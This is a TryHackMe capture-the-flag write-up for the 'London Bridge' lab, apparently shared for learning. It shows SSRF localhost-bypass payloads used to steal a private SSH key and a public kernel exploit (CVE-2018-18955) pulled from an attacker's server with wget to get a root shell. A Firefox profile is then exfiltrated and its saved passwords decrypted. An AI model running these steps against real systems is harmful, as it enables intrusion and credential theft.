

# The London Bridge - TryHackMe Writeup

**Difficulty:** Medium  
**TL;DR:** Found SSRF via hidden `www` parameter → SSH key theft → user flag → exploited kernel vulnerability `(CVE-2018-18955)` → root access -> extracted `Charles` password from FireFox profile.
---------------------------
## Target
- Machine: `LondonBridge`  
- Date: `2025-10-19`  
- Environment: TryHackMe / CTF
---------------------------

## Steps 
1. Initial scan:

```bash

└─$ nmap -sV -sC -Pn -T4 10.10.220.239                             

22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Gunicorn
|_http-title: Explore London
|_http-server-header: gunicorn
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

2. Directory discovery:

```bash
└─$ gobuster dir -u http://10.10.220.239:8080/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php,.php.bak,.txt

/contact              (Status: 200) [Size: 1703]
/feedback             (Status: 405) [Size: 178]
/gallery              (Status: 200) [Size: 1722]
/upload               (Status: 405) [Size: 178]
/view_image           (Status: 405) [Size: 178]
/dejaview             (Status: 200) [Size: 823]

```


3. In the dejaview page, we discovered an image upload functionality via URL using the image_url parameter.

 Following the hint about checking for development leftovers, we fuzzed for hidden parameters.

4. Parameter Discovery with FFuf:

```bash
└─$ ffuf -X POST -u "http://londonbridge.thm:8080/view_image" -data "FUZZ=test" -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -H 'Content-Type: application/x-www-form-urlencoded' -fs 0,823 -mc all 


www                     [Status: 500, Size: 290, Words: 37, Lines: 5, Duration: 122ms]

```
Found parameter `www`

-------------------------
### SSRF (Server-Side Request Forgery)


1. Internal Network Mapping

 Using localhost bypass techniques:

Referenced localhost bypass methods from: [SSRF Cheat Sheet](https://highon.coffee/blog/ssrf-cheat-sheet/#basic-locahost-bypass-attempts)

```bash
└─$ ffuf -X POST -u "http://londonbridge.thm:8080/view_image" -data "www=http://FUZZ" -w localhosts.txt -fs 0,823 -mc all -H 'Content-Type: application/x-www-form-urlencoded'


127.1:8080              [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 204ms]
127.0.1                 [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 203ms]
017700000001            [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 203ms]
0/                      [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 376ms]
127.1                   [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 376ms]
127.1.1.1:8080#\@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 380ms]
127.1.1.1:8080\@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 380ms]
127.1.1.1:8080:\@@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 394ms]
127.1.1.1:8080\@@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 628ms]

```

`127.1:80` Internal service discovered 

```bash
└─$ curl -X POST http://londonbridge.thm:8080/view_image -d "www=http://127.1:80/"  

```
2. Fuzzing :

```bash
└─$ ffuf -X POST -u "http://londonbridge.thm:8080/view_image" -data "www=http://127.1:80/FUZZ" -w /usr/share/wordlists/dirb/common.txt -H 'Content-Type: application/x-www-form-urlencoded' -fs 0,469 -mc 


.profile                [Status: 200, Size: 807, Words: 128, Lines: 28, Duration: 205ms]
.bashrc                 [Status: 200, Size: 3771, Words: 522, Lines: 118, Duration: 205ms]
                        [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 205ms]
.cache                  [Status: 200, Size: 474, Words: 19, Lines: 18, Duration: 206ms]
.ssh                    [Status: 200, Size: 399, Words: 18, Lines: 17, Duration: 206ms]
index.html              [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 351ms]
static                  [Status: 200, Size: 420, Words: 19, Lines: 18, Duration: 150ms]
templates               [Status: 200, Size: 1294, Words: 358, Lines: 44, Duration: 132ms]
uploads                 [Status: 200, Size: 630, Words: 23, Lines: 22, Duration: 228ms]

```
SSH directory accessible!  

```bash
└─$ curl -X POST http://londonbridge.thm:8080/view_image -d "www=http://127.1:80/.ssh"
.
.
<h1>Directory listing for /.ssh/</h1>
<hr>
<ul>
<li><a href="authorized_keys">authorized_keys</a></li>
<li><a href="id_rsa">id_rsa</a></li>
.
.

```
3. Download the private key :
```bash
└─$ curl -X POST http://londonbridge.thm:8080/view_image -d "www=http://127.1:80/.ssh/id_rsa" > id_rsa

chmod 600 id_rsa
```
User Identified: `beth` (from authorized_keys)

----------------

## user flag 

Connect via SSH and get the user flag from `__pycache__`:
```bash
└─$ ssh -i id_rsa beth@londonbridge.thm 


beth@london:~$ cat __pycache__/user.txt 
THM{[REDACTED]}
```

-----------------

## root flag

```bash

beth@london:~$ uname -a
Linux london 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```


### CVE:2018-18955

Description

In the Linux kernel 4.15.x through 4.19.x before 4.19.2, map_write() in kernel/user_namespace.c allows privilege escalation because it mishandles nested user namespaces with more than 5 UID or GID ranges. A user who has CAP_SYS_ADMIN in an affected user namespace can bypass access controls on resources outside the namespace, as demonstrated by reading /etc/shadow. This occurs because an ID transformation takes place properly for the namespaced-to-kernel direction but not for the kernel-to-namespaced direction.

------------------------

1. Clone the repo in your machine and run python web server

```bash
└─$ git clone https://github.com/scheatkode/CVE-2018-18955.git

└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
 
2. Download it in target machine using `wget -r `

```bash
beth@london:~$ wget -r http://10.9.1.6:8000/CVE-2018-18955
```
3. Change the permissions to be exectuable and run `exploit.dbus.sh`

```bash
beth@london:~/CVE-2018-18955$ chmod +x exploit.dbus.sh
beth@london:~/CVE-2018-18955$ ./exploit.dbus.sh 


[*] Launching root shell: /tmp/sh
root@london:/root# id
uid=0(root) gid=0(root) groups=0(root),1000(beth)
```
4. get root flag :
```bash
root@london:/root# cat .root.txt 
THM{REDACTED}
```
---------------------------

## password of charles
there firefox profile in `charles` home directory

We gonna use python script to steal firefox passwords 
you can download it from `https://github.com/unode/firefox_decrypt`


1. Download `8k3bf3zp.charles` to your machine via python server.

```bash
root@london:/home/charles/.mozilla/firefox# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
2. In your machine :
```bash
└─$ wget -r http://londonbridge.thm:8000/8k3bf3zp.charles
```
3. After download the profile run the script :
```bash
└─$ python3 firefox_decrypt.py londonbridge.thm:8000/8k3bf3zp.charles 
2025-10-20 06:18:01,266 - WARNING - profile.ini not found in londonbridge.thm:8000/8k3bf3zp.charles
2025-10-20 06:18:01,267 - WARNING - Continuing and assuming 'londonbridge.thm:8000/8k3bf3zp.charles' is a profile location

Website:   https://www.buckinghampalace.com
Username: 'Charles'
Password: '[REDACTED]'
```

 .
